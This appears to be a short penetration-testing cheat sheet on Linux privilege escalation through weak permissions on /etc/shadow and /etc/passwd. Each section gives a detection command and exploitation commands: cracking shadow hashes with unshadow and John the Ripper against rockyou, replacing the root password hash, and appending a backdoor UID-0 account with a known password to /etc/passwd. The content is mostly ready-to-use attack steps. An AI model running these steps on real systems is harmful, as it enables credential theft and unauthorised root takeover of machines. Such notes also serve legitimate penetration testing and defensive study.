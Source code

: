 # Weak File Permissions
## 1) Readable /etc/shadow
#### Detection
```bash
ls -l /etc/shadow
```

#### Exploitation
```bash
# Get Both "Passwd" AND "shadow" files
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

## 2) Writable /etc/shadow
#### Detection
```bash
ls -l /etc/shadow
```

#### Exploitation
```bash
# Generate a new hash root password
mkpasswd -m sha-512 toto
# Replace the root password by the one generated before
su root
```

## 3) Writable /etc/passwd
#### Detection
```bash
ls -l /etc/passwd
```

#### Exploitation
```bash
# Generate a new hash password "toto"
openssl passwd toto
# Add a new user with root privileges in "/etc/passwd" with password "toto"
toto:X7fEhkEMgrweg:0:0:root:/root:/bin/bash
```
